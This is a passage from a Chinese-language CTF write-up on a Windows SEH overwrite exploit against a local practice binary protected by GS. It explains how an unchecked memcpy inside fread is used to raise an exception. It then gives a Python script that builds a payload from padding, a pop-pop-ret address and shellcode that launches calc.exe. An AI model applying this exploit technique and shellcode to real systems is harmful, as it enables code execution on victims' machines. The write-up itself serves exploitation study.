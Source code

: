 ### 坑点
这个题目看起来就是一个简单的栈溢出，但是由于有`GS`，所以如果我们只是单纯的输入过长的内容，会导致变量**len**的长度**高于0x20，引发__report_rangecheckfailure**。这个函数我上网找到的资料比较少，大致就是**通过检测读入到栈中数据的长度和预定义的数据长度比较，从而检测栈溢出**。于是如果我们像正常程序一样处理，此时程序逻辑就会如下:
![](http://showlinkroom.me/2018/01/16/WindowsPwn-SEH/seh03.png)

 * int 29h 为 win8新加入的特性，可以以最快的方式结束当前进程
 * 这段逻辑于 main 函数中的 SEH 特性无关

从上述逻辑中可以看到，这个时候原先处于main函数中的 SEH 已经不再参与到整个程序流程中了(可能只是我没有观察到?不过至少是无法利用 main 函数中的 SEH 了)。

这样看来，我们就没有办法触发当前main函数中的异常了。。。。吗？

### 触发异常的方法
这个时候要回到观察我们的`_fread`函数。函数的关键逻辑如下:
![](http://showlinkroom.me/2018/01/16/WindowsPwn-SEH/seh04.png)
fread函数中的核心逻辑有一段`memcpy`的逻辑，这个逻辑只是简单的调用`rep`，没有进行长度限制之类。于是在这个地方就可能发生**越界读写**。我们这边正是利用了这个思路，**将数据写至栈底以下，触发页保护从而引起异常**。

### payload
由于这个是本地测试的题目，所以我们倒是不用考虑地址泄露啥的，直接用调试器计算出来就好。首先通过peda中的工具`pattern`算出当前距离SEH handler 的距离为88，然后根据此编写shellcode的生成程序:

```python
#   -*- coding:utf-8    -*-

import struct

def u32(num):
    return struct.pack("<I", num)

shellcode = b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b" 
shellcode += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
shellcode +=b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
shellcode +=b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
shellcode +=b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
shellcode +=b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
shellcode +=b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
shellcode +=b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
shellcode +=b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
shellcode +=b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
shellcode +=b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
shellcode +=b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
shellcode +=b"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
shellcode +=b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
shellcode +=b"\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"

page_offset = 0xdb0000
pop_pop_ret = u32(0x1931 + page_offset)
jmp_code = b'\x90\x90\xeb\x04'

if __name__ == '__main__':
    fd = open("step2.txt",'wb')
    poc = b"a" * 84 + jmp_code + pop_pop_ret + shellcode + b"a"*3000
    fd.write(poc)
    fd.close()
```
给个弹出来的计算器一个特写~
![](http://showlinkroom.me/2018/01/16/WindowsPwn-SEH/seh07.png)
